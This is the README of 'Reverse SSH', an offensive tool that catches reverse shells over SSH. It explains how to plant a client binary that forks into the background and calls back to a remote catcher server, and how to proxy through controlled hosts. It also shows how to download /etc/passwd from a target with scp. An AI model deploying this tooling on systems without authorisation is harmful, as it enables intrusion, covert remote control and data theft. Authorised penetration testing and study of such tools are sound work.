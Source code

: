 # Reverse SSH

Ever wanted to use SSH to talk to your reverse shells? Well now you can. Essentially works like any reverse shell catcher thing. 
You, the human client connect to the reverse shell catcher with ssh, and then select which remote host you want to connect to. 

```
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```


- [Reverse SSH](#reverse-ssh)
  - [Setup Instructions](#setup-instructions)
  - [Features](#features)
    - [Proxy](#proxy)
    - [SCP](#scp)
    - [Shell](#shell)
  - [Limitations](#limitations)

## Setup Instructions

Depending on the platform that you're building the server and client for. You may need to change the GOOS and GOARCH enviroment variables. E.g building for linux:
```
GOOS=linux GOARCH=amd64 make
```

Make will build both the `client` and `server` binaries. If you're dropping the `client` binary on a target with a different architecture you will need to change this.

The server will automatically generate a private key on first use. Or you can specify one with `--key`. You will need to create an `authorized_keys` file, containing *your* public key. 
This will allow the server to authenticate you, to allow you to control whatever reverse shell connections it catches. 
```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control. 
```
./client yourserver.com:3232
```

This will cause the client to fork into the background. If you want to montior the output for debugging purposes specify `--foreground`.  
The client will attempt to detect shells such as bash, ash, sh and execute one of those if possible. If it cant find one. Then you will be asked to enter in a path.

Then connect to your reverse shell catcher server:

```
ssh yourserver.com -p 3232
```

## Features

### Proxy

Using just the general dynamical forward `-D` flag you can proxy to your controlled hosts.

First you connect to your reverse shell catcher.

```
ssh -D 9050 catcher.com -p 3232
```

Then use the `proxy connect <remote_id>` command to connect to your reverse shell. 

```
catcher$ proxy connect 0bda3b12d3ce83f895632d412261073dc93dba3e 
Connected: 0bda3b12d3ce83f895632d412261073dc93dba3e
catcher$ 
```
After this, just point your tools/web browser to the socks5 port open on your local machine (in this example on port 9050) and you're away laughing.

You can obviously only proxy to one host at a time.


### SCP

You can transfer files to and from your controlled hosts using SCP. Essentially you address which host you want to download/upload to by `<ip_address>:<remote_id>:/path/here`.

e.g to upload the directory test to the host `0be2782caae4bedff780e14526f7618ab61e24fa`:
```
scp -r -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:$(pwd -P)/test2
```

Or to download `/etc/passwd` from a host:

```
scp -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:/etc/passwd
```

### Shell

On connection you will be presented by a list of controllable clients, e.g:
```
               Targets
----------------------------------------------------------
| ID                                       | IP Address  |
----------------------------------------------------------
| aee61d906398fde43034e7986ed1ee2f94bb0bf2 | [::1]:38228 |
----------------------------------------------------------
| fce2b96df94f6e0e33aab7951e2142a378df9148 | [::1]:38232 |
----------------------------------------------------------
catcher$ 
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries. 
So you you wanted to connect to the client given in the example: 
```
> connect a<TAB>
```
Will auto complete the entry for you and on enter will connect you to your reverse shell. 

## Limitations

This doesnt work entirely correctly for windows programs, due to limitations of the windows platform. But you can still run commands. 
Although they might not end properly, or be ctrl+c-able

